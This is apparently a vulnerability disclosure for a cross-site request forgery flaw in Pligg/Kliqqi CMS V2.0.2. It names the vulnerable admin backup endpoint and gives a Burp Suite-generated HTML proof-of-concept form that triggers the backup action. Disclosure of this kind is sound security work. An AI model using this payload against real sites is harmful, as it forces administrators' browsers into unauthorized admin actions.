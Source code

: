 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/admin_backup.php?dobackup=avatars

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/admin_backup.php?dobackup=avatars" method="POST">
      <input type="hidden" name="dobackup" value="avatars" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

